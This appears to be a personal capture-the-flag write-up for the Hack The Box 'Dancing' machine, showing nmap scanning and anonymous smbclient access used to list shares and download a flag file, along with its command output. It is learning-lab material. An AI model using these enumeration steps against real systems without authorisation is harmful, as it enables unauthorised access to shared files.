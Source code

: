 ## Box: [Dancing] — Started: 2025-10-05 21:10

**IP/Host:** `HTB Attackbox`  |  **Status:** `Owned: 25-10-05`

### TL;DR

Initial: `smbclient \\\\IPADDR\\WorkShares`. Flag Cap: `smb: \James.P\> get flag.txt`

*Cumulative Impact Overview*:
- SMB Learning Lab

### Exploit Lifecycle

1. *Validation & Recon*: HTB CTF
2. *Enumeration & Scanning*:
    - `nmap -sV IPADDR` - Found SMB service up (port pair 139/445)
3. *Findings & Exploits*:
    - `smbclient --list=IPADDR` - lists available workshares, which were:
    - ```powershell
  Sharename       Type      Comment
  ---------       ----      -------
  ADMIN$          Disk      Remote Admin
  C$              Disk      Default share
  IPC$            IPC       Remote IPC
  WorkShares      Disk      
```
    - `smbclient \\\\IPADDR\\WorkShares` - connected
    - `smb: \James.P\> ls` - listed directories:
    - ```powershell
  .                                   D        0  Mon Mar 29 03:22:01 2021
  ..                                  D        0  Mon Mar 29 03:22:01 2021
  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

  5114111 blocks of size 4096. 1733613 blocks available
      ```
    - Amy.J only held worknotes.txt, James.P had the flag:
4. *PrivEsc*: N/A
5. *Post-Exploitation*:
    - Amy.J only held worknotes.txt, James.P had the flag:
    - ```powershell
  smb: \> cd James.P
  smb: \James.P\> ls
    .                                   D        0  Thu Jun  3 03:38:03 2021
    ..                                  D        0  Thu Jun  3 03:38:03 2021
    flag.txt                            A       32  Mon Mar 29 04:26:57 2021
    
    5114111 blocks of size 4096. 1733557 blocks available
  smb: \James.P\> get flag.txt 
  getting file \James.P\flag.txt of size 32 as flag.txt (0.6 KiloBytes/sec) (average 1.2 KiloBytes/sec)
  smb: \James.P\> exit

  ``` 

*Proof — path to flags/screenshot of boxpwn*:

![[Pasted image 20251005212613.png]]


### Commands Learned or Commands Used
```bash
smbclient --list=IPADDR           # list available shares if anon access is allowed or auth is possible
smbclient \\\\IPADDR\\SHARENAME   # Connect, anon if blank password is entered
```


